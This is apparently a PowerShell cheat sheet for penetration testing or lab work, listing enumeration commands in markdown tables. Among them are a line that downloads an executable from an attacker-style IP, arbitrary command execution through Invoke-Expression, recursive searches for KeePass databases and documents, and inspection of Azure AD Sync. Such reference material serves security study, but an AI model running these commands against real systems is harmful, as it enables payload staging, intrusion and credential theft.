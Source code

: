 
## Commands

| Command | Description |
|---------|-------------|
| `show-command` | Show command window GUI |
| `Invoke-Expression -Command $cmd` | Run string as command |
| `Invoke-WebRequest -uri "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"` | Download file with Invoke-WebRequest |
| `Invoke-History -Id 2` | Run previous command from history (id=2) |
| `Start-Process -FilePath cmd` | Start cmd.exe via PowerShell |

## System & User Enumeration

| Command | Description |
|---------|-------------|
| `Get-NetComputer` | Enumerate computers in AD |
| `Get-LocalUser` | Enumerate local users |
| `Get-LocalGroup` | Enumerate local groups |
| `Get-LocalGroupMember` | Enumerate members of local groups |
| `Get-ComputerInfo` | Show detailed system info |
| `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" \| select displayname` | Show installed apps (32-bit) |
| `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" \| select displayname` | Show installed apps (64-bit) |
| `Get-Process \| Select ProcessName, Path` | Show running processes |
| `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` | Search KeePass DB |
| `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue` | Search text/ini files |
| `Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue` | Search common document files |
| `Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync` | Check AD Sync service config |
| `Get-ChildItem -Path Registry::HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services \| ft name` | Enumerate service registry |
| `Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' \| ft Parent,Name,LastWriteTime` | Show installed software and last update |
| `Get-CimInstance -ClassName win32_service` | Enumerate services |
| `Get-CimInstance -ClassName win32_service \| Select Name, StartMode \| Where-Object {$_.StartMode -like 'auto'}` | Show services with auto startup |
| `Get-ChildItem Registry::HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services \| ForEach-Object { if ($_.GetValue("ImagePath")) { [PSCustomObject]@{ Name = $_.PSChildName; ImagePath = $_.GetValue("ImagePath") } } } \| findstr DVRWatch` | Show services and their executables (filter: DVRWatch) |
| `Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" \| Format-list -Property * -Force` | Show details of specific executable |
| `Get-Item -path flag.txt -Stream *` | Check file alternate data streams |
| `tasklist /v` | Show running processes |
| `tasklist /v /fi "username eq system"` | Show processes running as SYSTEM |
| `Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE \| ft Name` | Show installed software list |
| `Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ \| fl` | Show ACL required for NetSessionEnum |
